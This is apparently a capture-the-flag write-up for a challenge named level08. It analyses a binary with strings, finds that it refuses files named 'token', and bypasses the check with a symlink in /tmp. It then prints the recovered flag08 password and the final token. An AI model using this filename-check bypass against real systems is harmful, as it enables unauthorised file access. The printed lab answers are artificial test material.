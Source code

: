 # level08

1. Files found in `~/` :

    ```bash
    level08  token
    ```

    Binary file `level08` (which requires a parameter) as well as a `token` file at the root, so we tried to give the token file to the executable :

    ```bash
    ./level08 token
    You may not access token
    ```

2. Binary analysis

    ```bash
    strings level08
    ```

    Several lines catch our attention :

    ```bash
    __stack_chk_fail
    printf
    strstr
    read
    open

    %s [file to read]
    token
    You may not access '%s'
    Unable to open %s
    Unable to read fd %d
    ```

    We can deduce that there is a check fail, `__stack_chk_fail`, and that there is a good chance that the check is done by comparing two strings with `strstr`. We can then see that two strings exist in the logs so `%s` and `token`. We therefore deduce that the file passed as parameter must not be named `token`.

3. Exploitation

    We have no rights on `token`, so impossible to rename or copy. We therefore decided to create a shortcut to `token` named `lecteur` in /tmp/ :

    ```bash
    ln -s /home/user/level08/token /tmp/lecteur
    ./level08 /tmp/lecteur
    ```

Launch `./level08` with `/tmp/lecteur` as parameter, the compared string will then not be `token`.

4. Final exploitation

    ```bash
    su flag08
    quif5eloekouj29ke0vouxean
    getflag
    ```

5. Token discovered

    The token is : `25749xKZ8L7DkSCwJkT9dyv6f`
